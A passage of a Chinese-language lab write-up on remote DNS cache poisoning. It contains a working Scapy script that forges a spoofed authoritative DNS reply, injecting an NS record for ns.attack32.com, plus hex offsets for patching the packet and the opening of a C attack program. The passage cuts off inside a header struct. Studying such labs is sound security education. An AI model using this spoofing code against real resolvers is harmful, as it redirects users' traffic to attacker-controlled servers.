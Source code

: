 后面会使用C code 进行修改。

<br>

<br>

**伪造响应包**

```python
from scapy.all import *

targetName="xxxxx.example.com"
targetDomain="example.com"
attackerNS ="ns.attack32.com"

dstIP="10.0.2.5"
srcIP='199.43.135.53'                                    

ip = IP(dst=dstIP,src=srcIP,chksum=0)
udp = UDP(dport=33333,sport=53,chksum=0)

Qdsec = DNSQR(qname=targetName)
Ansec = DNSRR(rrname=targetName,type='A',rdata='1.2.3.4',ttl=259200)
NSsec = DNSRR(rrname=targetDomain,type='NS',rdata=attackerNS,ttl=259200)
dns   = DNS(id=0xAAAA,aa=1,rd=1,qr=1,qdcount=1,ancount=1,nscount=1,arcount=0,qd=Qdsec,an=Ansec,ns=NSsec)
Replypkt = ip/udp/dns

with open('Reply.bin','wb') as f:
	f.write(bytes(Replypkt))
```

<br>

使用bless查看偏移量：

![image-20210331140636415](https://cdn.jsdelivr.net/gh/sumsunsuns/Blog-Photo@main/20210331140636.png)

<br>

因为之前我们生成的响应数据包transaction ID为0xAAAA，所以这里我们可以直接查找16进制代码找到，偏移量为0x1c，十进制为28。

同理，第一个xxxxx.example.com 在数据包中的偏移量为0x29，41，第二个xxxxx.example.com 在数据包中的偏移量为0x40，64。

<br>

<br>

**C攻击代码：**

<br>

```c
#include <stdlib.h>
#include <arpa/inet.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>
#include <sys/socket.h>

#define MAX_FILE_SIZE 2000


/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4, //IP header length
                     iph_ver:4; //IP version
  unsigned char      iph_tos; //Type of service
  unsigned short int iph_len; //IP Packet length (data + header)
```